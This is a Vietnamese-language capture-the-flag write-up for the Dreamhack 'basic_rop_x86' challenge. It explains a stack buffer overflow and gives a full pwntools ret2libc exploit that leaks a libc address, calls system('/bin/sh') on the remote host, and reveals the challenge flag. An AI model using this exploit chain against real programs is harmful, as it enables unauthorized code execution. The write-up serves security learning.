 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}

```

Chương trình khai báo biến `buf` với 0x40 byte nhưng cho nhập 0x400 byte -> Có lỗi bof

**2. Ý tưởng**

Dùng lệnh `checksec` kiểm tra:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Ta thấy stack đang no canary found

Thử dùng `ROPgadget` kiếm một số thanh ghi nhưng không có. Check bảng `GOT` ta có:

```
pwndbg> got
GOT protection: Partial RELRO | GOT functions: 8
[0x804a00c] read@GLIBC_2.0 -> 0x80483f6 (read@plt+6) ◂— push 0 /* 'h' */
[0x804a010] signal@GLIBC_2.0 -> 0x8048406 (signal@plt+6) ◂— push 8
[0x804a014] alarm@GLIBC_2.0 -> 0x8048416 (alarm@plt+6) ◂— push 0x10
[0x804a018] puts@GLIBC_2.0 -> 0x8048426 (puts@plt+6) ◂— push 0x18
[0x804a01c] exit@GLIBC_2.0 -> 0x8048436 (exit@plt+6) ◂— push 0x20 /* 'h ' */
[0x804a020] __libc_start_main@GLIBC_2.0 -> 0x8048446 (__libc_start_main@plt+6) ◂— push 0x28 /* 'h(' */
[0x804a024] write@GLIBC_2.0 -> 0x8048456 (write@plt+6) ◂— push 0x30 /* 'h0' */
[0x804a028] setvbuf@GLIBC_2.0 -> 0x8048466 (setvbuf@plt+6) ◂— push 0x38 /* 'h8' */
```

 Nhưng ở đây có hàm `read`, `write`, `puts` nên có thể tận dụng để leak địa chỉ libc để từ đó sử dụng `ROPgadget` để hướng đến hàm thực thi.

**3. Khai thác**

```
   0x080485f6 <+29>:    push   0x400
   0x080485fb <+34>:    lea    eax,[ebp-0x44]
   0x080485fe <+37>:    push   eax
   0x080485ff <+38>:    push   0x0
   0x08048601 <+40>:    call   0x80483f0 <read@plt>
```

Ta thấy biến cần nhập cách `ebp` 0x44 byte nên nhập 0x44 + 0x4 byte rác sẽ đến được `ret`. Đặt breakpoint ở lệnh `ret` thì thấy:

![ret.png](photo/ret.png)

Sau lệnh `ret` thì chương trình trả về địa chỉ trong dải địa chỉ libc nên lúc này chèn hàm `puts` thì sẽ in ra được địa chỉ đó. Kiểm tra thử:

![check.png](photo/check.png)

Chương trình trả về 0x40 byte chữ a và 1 địa chỉ. Tiếp theo thêm hàm `main` vào để quay lại main rồi chèn `read@got` để chờ nhập rồi lấy địa chỉ leak ra được để tính toán địa chỉ libc base:

```
payload = b'a'*(0x44 + 0x4)
payload += p32(exe.plt['puts'])
payload += p32(exe.sym['main'])
payload += p32(exe.got['read'])
r.send(payload)
r.recvuntil(b'a'*0x40)
leak = u32(r.recv(4))
log.info("leak: " + hex(leak))
```

![libc.png](photo/libc.png)

Ta tính toán được địa chỉ leak ra cách địa chỉ libc base 0x10a0c0 byte. Và chương trình đã quay lại `read` trong main nên chèn shell ở libc là xong

```
pop_ebx = 0x080483d9
payload = b'a'*(0x44 + 0x4)
payload += p32(libc.sym['system'])
payload += p32(pop_ebx)
payload += p32(next(libc.search(b'/bin/sh')))
r.sendline(payload)
```

Nhưng lại ko trả về hàm `system` chạy trên server mới thấy libc khác nhau. Phải trừ địa chỉ `read` mới về libc base. Ta có script như sau:

```
from pwn import *

exe = ELF('basic_rop_x86', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 23533)
libc = ELF('libc.so.6', checksec=False)


###1. Leak libc
payload = b'a'*(0x44 + 0x4)
payload += p32(exe.plt['puts'])
payload += p32(exe.sym['main'])
payload += p32(exe.got['read'])
r.send(payload)
r.recvuntil(b'a'*0x40)
leak = u32(r.recv(4))
log.info("leak: " + hex(leak))
libc.address = leak - libc.sym['read']
log.info("libc base:" + hex(libc.address))

#input()
##2. Get shell
pop_ebx = 0x080483d9
payload = b'a'*(0x44 + 0x4)
payload += p32(libc.sym['system'])
payload += p32(pop_ebx)
payload += p32(next(libc.search(b'/bin/sh')))
r.sendline(payload)

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: DH{ff3976e1fcdb03267e8d1451e56b90a5}`